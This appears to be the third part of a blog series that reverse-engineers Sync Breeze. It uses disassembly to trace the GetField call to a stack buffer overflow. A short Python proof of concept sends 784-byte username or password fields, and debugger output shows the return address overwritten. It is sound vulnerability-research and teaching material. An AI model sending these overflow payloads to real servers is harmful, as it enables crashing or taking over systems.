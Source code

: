 [Home](https://plackyhacker.github.io) : [Part 2](https://plackyhacker.github.io/reversing/sync-breeze-reversing-2) : [Part 3](https://plackyhacker.github.io/reversing/sync-breeze-reversing-3)

# Sync Breeze Revisited Part 3

## A Smoking Gun

I continued tracing the instrcution flow trying to see if any vulnerable functions were called (such as `strcpy`), but nothing! However, following the instruction flow I arrived upon the following:

```
.text:00754E30 ; int __thiscall SCA_ConfigObj::GetField(SCA_ConfigObj *__hidden this, const char *, char *, unsigned int)
.text:00754E30 public ?GetField@SCA_ConfigObj@@QAEHPBDPADK@Z
.text:00754E30 ?GetField@SCA_ConfigObj@@QAEHPBDPADK@Z proc near
.text:00754E30
.text:00754E30 arg_0= dword ptr 4
.text:00754E30 arg_4= dword ptr 8
.text:00754E30
```

Three parameters, but only two local variables (`arg_0` and `arg_4`) being used. I went back to the block that called `GetField` in `sycbrs.exe`, I added a few comments:

```
.text:00426C1D lea     esi, [eax+628h]
.text:00426C23 lea     eax, [esp+320h+var_30C] ; this is our local buffer on the stack
.text:00426C27 push    104h            ; This looks like a length of 260 - not used in the function GetField although sent as a parameter - odd!
.text:00426C2C push    eax             ; This is the username field buffer that can be overflowed
.text:00426C2D push    offset aUsername ; The field to get
...
.text:00426C51 call    ?GetField@SCA_ConfigObj@@QAEHPBDPADK@Z ; SCA_ConfigObj::GetField(char const *,char *,ulong)
```

When the GetField has returned it has placed the buffer password buffer that I sent in my packet on the current stack, if this isn't bounds checked then I may be able to overflow the return address on the stack.

Even earlier in the instructions I find this:

```
.text:00426B20 sub     esp, 310h
```

This instruction increases the size of the stack by 784 bytes, this will be to make space for various buffers we are placing on the stack. My theory at this point was 784 bytes were being reserved on the stack for the local variables, there is no bounds checking on the buffers I send (the probable length field), if I send a buffer of 784 bytes I might be able to overflow the buffer.

Further down the function I found:

```
.text:00426DC9 add     esp, 310h       ; This moves the stack + 0x310
.text:00426DCF retn    4
```

These two instructions move the stack pointer back to what should be the saved return address, but if there is no bounds checking then it will be vulnerable.

## Proof of Concept

I changed my `python` PoC:

```python
username = b"A" * 784
password = b"B" * 100
content = b"username=" + username + b"&password=" + password
```

Sure enough the buffer overflowed:

```
(dc4.310): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000001 ebx=00000000 ecx=004ccfbc edx=00000358 esi=004bec9e edi=00de60f0
eip=41414141 esp=0180744c ebp=004c3108 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
41414141 ??              ???
```

In theory, the password field also uses the same instruction flow and should overflow, I changed the PoC:

```python
username = b"A" * 100
password = b"B" * 784
content = b"username=" + username + b"&password=" + password
```

As sure as eggs is eggs the buffer is overflowed:

```
0:009> g
(1be0.1ff0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000001 ebx=00000000 ecx=0052c2c4 edx=00000358 esi=0051fece edi=00e360f0
eip=42424242 esp=01a5744c ebp=00524028 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
42424242 ??              ???
```

Exploiting this vulnerability is straight forward, the [public exploit can be found here](https://www.exploit-db.com/exploits/42928).

[Home](https://plackyhacker.github.io) : [Part 2](https://plackyhacker.github.io/reversing/sync-breeze-reversing-2) : [Part 3](https://plackyhacker.github.io/reversing/sync-breeze-reversing-3)

